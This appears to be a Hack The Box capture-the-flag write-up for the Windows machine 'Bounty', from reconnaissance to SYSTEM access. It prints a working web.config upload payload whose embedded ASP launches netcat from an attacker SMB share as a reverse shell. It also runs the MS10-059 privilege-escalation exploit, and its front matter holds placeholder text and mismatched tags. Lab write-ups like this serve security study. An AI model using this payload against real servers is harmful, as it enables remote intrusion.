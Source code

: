 ```yaml
---
layout: single
title: Bounty - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-28
classes: wide
header:
  teaser: /assets/images/htb-writeup-bounty/bounty_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-bounty/bounty_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/bounty]# nmap -Pn -n -sCV 10.10.10.93 --open                                                                       (master✱)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: Bounty
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


  DIRB:
  ==> DIRECTORY: http://10.10.10.93/aspnet_client/
  ==> DIRECTORY: http://10.10.10.93/uploadedfiles/

  NIKTO:
  + Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST


2. Visiting port 80 we only see merlin.jpg, download the image to see if something is hidden within.

    [root:/git/htb/bounty]# binwalk -e merlin.jpg
      DECIMAL       HEXADECIMAL     DESCRIPTION
      --------------------------------------------------------------------------------
      0             0x0             JPEG image data, JFIF standard 1.02
      30            0x1E            TIFF image data, big-endian, offset of first image directory: 8
      332           0x14C           JPEG image data, JFIF standard 1.02
      7637          0x1DD5          JPEG image data, JFIF standard 1.02

  Binwalk doesn't extract anything, however we can see two other images with offset 332 and 7637. Extract them with dd.

    [root:/git/htb/bounty]# dd if=merlin.jpg of=out.jpg skip=332 bs=1                                                               (master✱)
      780400+0 records in
      780400+0 records out
      780400 bytes (780 kB, 762 KiB) copied, 2.0058 s, 389 kB/s

    [root:/git/htb/bounty]# dd if=merlin.jpg of=out2.jpg skip=7637 bs=1                                                             (master✱)
      773095+0 records in
      773095+0 records out
      773095 bytes (773 kB, 755 KiB) copied, 2.52271 s, 306 kB/s

  Both images have the same illustration, merlin, but are smaller - like a thumbnail. This leads to nothing, move one.
  Start to fuzz to see if we can find anything else.

    root@nidus:~/Downloads# ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://bounty.htb/FUZZ.aspx
      --- snip ---
      transfer                [Status: 200, Size: 941, Words: 89, Lines: 22]


3. Our new found side, http://10.10.10.93/transfer.aspx, allows us to upload files.
   We can't see what file type is allowed by looking at the source, but trying a few we can see .jpg is allowed.
   By judging of the merlin picture, we should use 'magic' (magic byte) to bypass this and get our foothold.

  Trying to upload the aspx-file and changing content type from "application/octet-stream" to "image/jpeg" doesn't work.
  Changing the filename from "rev.aspx" to "rev.jpg" works and is allowed, however that doesn't do anything for us.

  To find all available extensions, intercept the upload and send it to burp intruder. Set the extension as target, and upload
  the extension list as payload. Run and we find following allowed extensions:
    gif, jpg, png, doc, config, jpeg, xls, xlsx, docx

  A web.config file lets you customize the way your site or a specific directory on your site behaves. For example, if you
  place a web.config file in your root directory, it will affect your entire site. If you place it in a /content directory,
  it will only affect that directory.

  There is a known RCE vulnerability with web.config-files, download and modify it to trigger a reverse shell.

  [root:/git/htb/bounty]# cat web.config                                                                                          (master✱)
    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
       <system.webServer>
          <handlers accessPolicy="Read, Script, Write">
             <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
          </handlers>
          <security>
             <requestFiltering>
                <fileExtensions>
                   <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                   <remove segment="web.config" />
                </hiddenSegments>
             </requestFiltering>
          </security>
       </system.webServer>
       <appSettings>
    </appSettings>
    </configuration>
    <!–-
    <% Response.write("-"&"->")
    Response.write("<pre>")
    Set wShell1 = CreateObject("WScript.Shell")
    Set cmd1 = wShell1.Exec("//10.10.14.8/share/nc64.exe 10.10.14.8 4488 -e cmd")
    output1 = cmd1.StdOut.Readall()
    set cmd1 = nothing: Set wShell1 = nothing
    Response.write(output1)
    Response.write("</pre><!-"&"-") %>
    -–>

  Start your SMB Share, upload the 'web.config' file, setup a listener and grab the incomming shell.

  [root:/git/htb/bounty]# rlwrap nc -lvnp 4488                                                                                      (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.93] 49160
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    c:\windows\system32\inetsrv> whoami
      bounty\merlin

    c:\windows\system32\inetsrv> type C:\Users\merlin\Desktop\user.txt
      e29ad89891462e0b09741e3082f44a2f



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Grab systeminfo and run windows-exploit-suggester locally.

[root:/git/htb/bounty]# python /opt/windows-exploit-suggester.py --update                                                       (master✱)
  [*] initiating winsploit version 3.3...
  [+] writing to file 2021-03-04-mssb.xls
  [*] done
[root:/git/htb/bounty]# python /opt/windows-exploit-suggester.py --database 2021-03-04-mssb.xls --systeminfo systeminfo.txt     (master✱)
  [*] initiating winsploit version 3.3...
  [*] database file detected as xls or xlsx based on extension
  [*] attempting to read from the systeminfo input file
  [+] systeminfo input file read successfully (ascii)
  [*] querying database file for potential vulnerabilities
  [*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
  [*] there are now 197 remaining vulns
  [+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
  [+] windows version identified as 'Windows 2008 R2 64-bit'
  [*]
  [M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
  [M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
  [E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
  [*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
  [*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
  [*]
  [E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
  [M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
  [M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
  [E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
  [E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
  [M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
  [M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
  [*] done


  HTB don't want any Kernel exploits to be used, so with that in mind we only have MS10-059 for instant privesc.

  [root:/git/htb/bounty]# cp /opt/windows-kernel-exploits/MS10-059/MS10-059.exe /srv/pub-share                                    (master✱)
  [root:/git/htb/bounty]# chmod +x /srv/pub-share/MS10-059.exe

  C:\> //10.10.14.8/share/MS10-059.exe 10.10.14.8 4499
    /Chimichurri/-->This exploit gives you a Local System shell
    /Chimichurri/-->Changing registry values...
    /Chimichurri/-->Got SYSTEM token...
    /Chimichurri/-->Running reverse shell...
    /Chimichurri/-->Restoring default registry values...

  [root:/git/htb/bounty]# rlwrap nc -lvnp 4499                                                                                      (master✱)
  listening on [any] 4499 ...
  connect to [10.10.14.8] from (UNKNOWN) [10.10.10.93] 49163
  Microsoft Windows [Version 6.1.7600]
  Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

  C:\> whoami
  nt authority\system

  C:\> type C:\Users\Administrator\Desktop\root.txt
    c837f7b699feef5475a0c079f9d4f5ea


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

File Extension List:
  https://gist.github.com/securifera/e7eed730cbe1ce43d0c29d7cd2d582f4

web.config RCE:
  https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/
